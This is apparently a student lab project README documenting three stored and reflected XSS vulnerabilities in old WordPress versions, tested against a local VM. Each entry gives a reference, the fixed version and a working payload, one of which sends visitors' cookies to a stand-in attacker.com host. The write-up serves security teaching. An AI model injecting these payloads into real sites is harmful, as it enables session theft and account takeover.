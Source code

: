 # Week-7-Project-WordPress-vs.-Kali


[!] Title: WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS) <br>
    Reference: https://www.exploit-db.com/exploits/36844/ <br>
[i] Fixed in: 4.2.1 <br>
If triggered by a logged-in administrator, under default settings the attacker can leverage the vulnerability to 
execute arbitrary code on the server via the plugin and theme editors. <br>
<code>  <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px x </code><br>
<img src="https://i.imgur.com/kKKLoZh.gif" width="800"> <br>


[!] Title: WordPress <= 4.2.3 - Widgets Title Cross-Site Scripting (XSS) <br>
    Reference: https://wpvulndb.com/vulnerabilities/8131 <br>
[i] Fixed in: 4.2.4 <br>
Top 10 2013-A3-Cross-Site Scripting (XSS) <br>
https://www.owasp.org/index.php/Top_10_2013-A3-Cross-Site_Scripting_(XSS) <br>
If the attacker could trick the admin to post this as a comment: <br>
<code>(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("'><script>document.location= 'http://www.attacker.com/cgi-bin/cookie.cgi ?foo='+document.cookie</script>'.") + "'>"; </code><br>
we would get a working XSS exploit that would forward wpdistillery.vm visitors to attacker.com <br>
<img src="https://i.imgur.com/3mrNRXU.gif" width="800"> <br>


[!] Title: WordPress  4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds <br>
    Reference: https://blog.sucuri.net/2017/03/stored-xss-in-wordpress-core.html <br>
This issue was patched in WordPress 4.7.3. <br>
If the attacker could trick the admin to post this as a comment: <br>
<code>[embed src='https://youtube.com/embed/12345\x3csvg onload=alert(1)\x3e'][/embed] </code><br>
we could get a stored XSS exploit. <br>
<img src="https://i.imgur.com/msRn9YG.gif" width="800"> <br>


